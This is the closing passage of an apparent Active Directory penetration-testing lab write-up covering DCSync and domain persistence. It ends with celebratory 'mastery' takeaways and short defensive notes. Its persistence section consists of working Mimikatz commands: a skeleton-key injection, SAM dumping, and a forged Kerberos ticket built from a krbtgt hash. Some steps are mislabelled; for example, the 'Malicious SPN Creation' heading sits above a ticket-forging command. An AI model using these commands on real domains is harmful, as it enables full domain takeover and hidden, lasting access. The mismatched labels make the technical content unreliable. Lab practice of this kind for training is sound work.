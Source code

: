 ### **Establishing Persistence**

#### **1. Skeleton Key Attack**
```
mimikatz # misc::skeleton
```

#### **2. DSRM Password Abuse**
```
mimikatz # token::elevate
mimikatz # lsadump::sam
```

#### **3. Malicious SPN Creation**
```
mimikatz # kerberos::golden /domain:inlanefreight.local /sid:S-1-5-21-3842939050-3880317879-2865463114 /krbtgt:16e26ba33e455a8c338142af8d89ffbc /user:evilservice /service:HTTP/evil.inlanefreight.local /ptt
```

---

## 📊 **Key Takeaways**

### **Technical Mastery Achieved**
1. **DCSync Theory**: Understanding DS-Replication-Get-Changes rights and domain replication protocol
2. **Multi-Platform Execution**: Both Linux (secretsdump.py) and Windows (Mimikatz) approaches
3. **Advanced Enumeration**: Reversible encryption detection and cleartext password extraction
4. **Complete Domain Compromise**: From initial access to full administrative control

### **Professional Skills Developed**
- **Privilege Escalation**: Leveraging ACL misconfigurations to achieve DCSync rights
- **Credential Extraction**: Complete domain password database acquisition
- **Post-Exploitation**: Using extracted credentials for further attacks and persistence
- **Detection Awareness**: Understanding defensive measures and attack signatures

### **Attack Chain Mastery**
```
Initial Access → ACL Enumeration → ACL Abuse → DCSync → Domain Admin
   (Foothold)     (Discovery)     (Privilege)   (Extraction)   (Victory)
```

### **Defensive Insights**
- **Monitoring Requirements**: Event logging, ACL auditing, behavioral analysis
- **Preventive Measures**: Privilege minimization, reversible encryption removal
- **Detection Strategies**: Replication traffic monitoring, unusual authentication patterns
- **Response Procedures**: Incident response for DCSync attack indicators

**🔑 Complete adversarial simulation mastery achieved - from initial enumeration through ACL abuse to ultimate domain compromise via DCSync - representing the pinnacle of Active Directory penetration testing capabilities!**

--- 